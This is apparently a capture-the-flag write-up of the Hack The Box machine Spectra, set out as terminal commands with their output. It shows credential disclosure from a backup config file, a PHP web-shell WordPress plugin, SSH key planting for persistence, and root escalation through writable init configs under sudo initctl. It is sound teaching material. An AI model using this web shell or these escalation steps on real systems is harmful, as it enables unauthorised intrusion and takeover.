


# Target
| Category          | Details                                                                         |
|-------------------|---------------------------------------------------------------------------------|
| 📝 **Name**       | [Spectra](https://app.hackthebox.com/machines/Spectra)                          |  
| 🏷 **Type**       | HTB Machine                                                                     |
| 🖥 **OS**         | Other                                                                           |
| 🎯 **Difficulty** | Easy                                                                            |
| 📁 **Tags**       | Chrome OS, credential disclosure, WordPress cmd plugin, autologin, sudo initctl |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Spectra]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-13 06:40 +0200
Nmap scan report for 10.129.27.193
Host is up (0.054s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.17.4
3306/tcp open  mysql   MySQL (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.49 seconds
```

#### Discover `spectra.htb` virtual host
```
┌──(magicrc㉿perun)-[~/attack/HTB Spectra]
└─$ curl http://$TARGET                                                                                                     
<h1>Issue Tracking</h1>

<h2>Until IT set up the Jira we can configure and use this for issue tracking.</h2>

<h2><a href="http://spectra.htb/main/index.php" target="mine">Software Issue Tracker</a></h2>
<h2><a href="http://spectra.htb/testing/index.php" target="mine">Test</a></h2>
```

#### Discover WordPress 5.4.2 running on target
```
┌──(magicrc㉿perun)-[~/attack/HTB Spectra]
└─$ curl -s http://spectra.htb/main/ | grep generator
<meta name="generator" content="WordPress 5.4.2" />
```

#### Add `spectra.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Spectra]
└─$ echo "$TARGET spectra.htb" | sudo tee -a /etc/hosts
10.129.27.193 spectra.htb
```

#### Enumerate web server 
```
┌──(magicrc㉿perun)-[~/attack/HTB Spectra]
└─$ feroxbuster --url http://spectra.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html,js,png,jpg,py,txt,log -C 404
<SNIP>
200      GET       90l      426w     2888c http://spectra.htb/testing/wp-config.php.save
<SNIP>
```
`wp-config.php.save` looks particularly interesting, since its `.save` extension allows us to view the underlying PHP source code. 

#### Discover database credentials in `/testing/wp-config.php.save`
```
┌──(magicrc㉿perun)-[~/attack/HTB Spectra]
└─$ curl http://spectra.htb/testing/wp-config.php.save                                             
<?php
<SNIP>
/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );
<SNIP>
```

#### Reuse discovered password to access WordPress admin panel as `administrator`


Since we are not able to edit theme, we will try to install RCE plugin.

#### Prepare simple WordPress plugin for command invocation
```
┌──(magicrc㉿perun)-[~/attack/HTB Spectra]
└─$ { cat <<'EOF'> cmd.php 
<?php
/**
* Plugin Name: cmd
* Description: /wp-content/plugins/cmd/cmd.php?cmd=id
* Version: 1.0
* Author: magicrc
*/

if(isset($_GET['cmd'])) system($_GET['cmd']);
?>
EOF
} && zip -9 cmd.zip cmd.php
  adding: cmd.php (deflated 16%)
```

#### Install and active `cmd.zip` plugin


#### Confirm plugin is operational
```
┌──(magicrc㉿perun)-[~/attack/HTB Spectra]
└─$ curl http://spectra.htb/main/wp-content/plugins/cmd/cmd.php?cmd=id              
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```

#### Prepare `cmd.sh` exploit
```
┌──(magicrc㉿perun)-[~/attack/HTB Spectra]
└─$ { cat <<'EOF'> cmd.sh
CMD=$(echo -n "$1 2>&1" | jq -sRr @uri) && \
curl http://spectra.htb/main/wp-content/plugins/cmd/cmd.php?cmd=$CMD
EOF
} && chmod +x cmd.sh
```

#### Query basic information about `nginx` user
```
┌──(magicrc㉿perun)-[~/attack/HTB Spectra]
└─$ ./cmd.sh 'grep nginx /etc/passwd && echo $HOME && ls -la $HOME'
nginx:x:20155:20156::/home/nginx:/bin/bash
/home/nginx
total 32
drwxr-xr-x 5 nginx nginx 4096 Feb  4  2021 .
drwxr-xr-x 8 root  root  4096 Feb  2  2021 ..
lrwxrwxrwx 1 root  root     9 Feb  4  2021 .bash_history -> /dev/null
-rw-r--r-- 1 nginx nginx  127 Dec 22  2020 .bash_logout
-rw-r--r-- 1 nginx nginx  204 Dec 22  2020 .bash_profile
-rw-r--r-- 1 nginx nginx  551 Dec 22  2020 .bashrc
drwx------ 3 nginx nginx 4096 Jan 15  2021 .pki
drwx------ 2 nginx nginx 4096 Apr 13 22:10 .ssh
drwxr-xr-x 2 nginx nginx 4096 Jan 15  2021 log
```
It appears that the `nginx` user has an interactive Bash shell. We could try to upgrade our 'connection' to SSH.

#### Upgrade `cmd.sh` to SSH connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Spectra]
└─$ ssh-keygen -q -t rsa -b 1024 -f nginx_id_rsa -N "" -C "$RANDOM@$RANDOM.net" && PUBLIC_KEY=$(cat nginx_id_rsa.pub) && \
./cmd.sh "echo $PUBLIC_KEY >> /home/nginx/.ssh/authorized_keys && chmod 600 /home/nginx/.ssh/authorized_keys" && \
ssh -i nginx_id_rsa nginx@spectra.htb
nginx@spectra ~ $ id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```

#### Check Linux distribution
```
nginx@spectra ~ $ cat /etc/lsb-release 
GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
CHROMEOS_RELEASE_NAME=Chromium OS
CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
CHROMEOS_RELEASE_BOARD=chromeover64
CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
CHROMEOS_RELEASE_BUILD_NUMBER=13505
CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
CHROMEOS_RELEASE_CHROME_MILESTONE=87
CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
CHROMEOS_RELEASE_VERSION=87.3.41
CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64
```
It appears the target is running ChromeOS. This distribution may use an autologin mechanism that supplies a password during boot.

#### Search for `autologin` files
```
nginx@spectra ~ $ find / -name *autologin* 2> /dev/null
/opt/autologin.conf.orig
/etc/autologin
/etc/init/autologin.conf
```

#### Check content of `/etc/autologin` directory
```
nginx@spectra ~ $ ls -la /etc/autologin
total 12
drwxr-xr-x  2 root root 4096 Feb  3  2021 .
drwxr-xr-x 63 root root 4096 Feb 11  2021 ..
-rw-r--r--  1 root root   19 Feb  3  2021 passwd
```

#### Discover password in `/etc/autologin/passwd`
```
nginx@spectra ~ $ cat /etc/autologin/passwd 
SummerHereWeCome!!
```

#### Access target using `katie:SummerHereWeCome!!` credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Spectra]
└─$ ssh katie@spectra.htb                
(katie@spectra.htb) Password: 
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
```

#### Capture user flag
```
katie@spectra ~ $ cat /home/katie/user.txt 
e89d27fe195e9114ffa72ba8913a6130
```

### Root flag

#### List allowed sudo commands
```
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

#### Find `/etc/init` writable files
```
katie@spectra ~ $ find /etc/init -writable -type f 2>/dev/null
/etc/init/test6.conf
/etc/init/test7.conf
/etc/init/test3.conf
/etc/init/test4.conf
/etc/init/test.conf
/etc/init/test8.conf
/etc/init/test9.conf
/etc/init/test10.conf
/etc/init/test2.conf
/etc/init/test5.conf
/etc/init/test1.conf
```

#### Capture root flag
```
katie@spectra ~ $ echo "exec cp /root/root.txt /home/nginx/root.txt" > /etc/init/test.conf && sudo /sbin/initctl start test > /dev/null && \
echo "exec chmod 777 /home/nginx/root.txt" > /etc/init/test.conf && sudo /sbin/initctl start test > /dev/null && \
cat /home/nginx/root.txt
d44519713b889d5e1f9e536d0c6df2fc
```
